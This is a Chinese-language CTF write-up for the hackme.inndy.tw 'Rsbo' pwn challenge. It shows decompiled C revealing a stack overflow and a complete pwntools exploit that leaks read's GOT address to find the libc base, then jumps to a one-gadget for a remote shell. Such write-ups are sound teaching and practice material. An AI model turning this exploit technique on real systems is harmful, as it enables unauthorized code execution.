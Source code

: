```yaml
---
title: hackme.inndy.tw::Rsbo & Rsbo 2
date: 2023-10-17 21:24:55
tags: pwn
---
```


## challenge
`Tips: ROP, open, read`

## 保護機制
NX開啟，Partial RELRO

## 分析
### main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  char buf[80]; // [esp+10h] [ebp-60h]
  int v6; // [esp+60h] [ebp-10h]
  int v7; // [esp+64h] [ebp-Ch]
  int v8; // [esp+68h] [ebp-8h]
  int i; // [esp+6Ch] [ebp-4h]

  alarm(0x1Eu);
  init();
  v8 = read_80_bytes(buf);
  for ( i = 0; i < v8; ++i )
  {
    v3 = rand();
    v7 = v3 % (i + 1);
    v6 = buf[i];
    buf[i] = buf[v3 % (i + 1)];
    buf[v7] = v6;
  }
  write(1, buf, v8);
  return 0;
}
```
### init
```c
void init()
{
  char buf[16]; // [esp+14h] [ebp-24h]
  int fd; // [esp+24h] [ebp-14h]
  unsigned int seed; // [esp+28h] [ebp-10h]
  int i; // [esp+2Ch] [ebp-Ch]

  fd = open("/home/ctf/flag", 0);
  read(fd, buf, 0x10u);
  seed = time(0);
  for ( i = 0; i <= 15; ++i )
    seed = (signed int)(1337 * seed + buf[i]) % 0x7FFFFFFF;
  close(fd);
  memset(buf, 0, 0x10u);
  srand(seed);
}
```
觀察組語可發現 `main()` stack大小小於0x80(128), 而`read_80_bytes()`造成 overflow

因為ASLR, NX 的關係, 需要想辦法ROP

但binary太小, 組不起ROP chain, 因此使用libc

只要Leak GOT, 接著就可以算出libc base & getshell了

## exploit
```python
#!/usr/bin/env python2

from pwn import *
context.log_level = 'debug'

#p = process('rsbo')
p = remote('hackme.inndy.tw', 7706)
e = ELF('rsbo')
libc = ELF('libc-2.23.so.i386')

#Stage 1 (leak read)
payload = '\x00'*108
payload += p32(e.symbols['write']) + p32(e.symbols['_start']) + p32(1) + p32(e.got['read']) + p32(4)
p.send(payload)
libc_base = u32(p.recv(4)) - libc.symbols['read']
print '[+]Libc base at: {}'.format(hex(libc_base))

payload = '\x00'*108
payload += p32(libc_base + 0x5faa5)
p.send(payload)

p.interactive()
p.close()
```
shell連上去之後可以拿到2個 Flag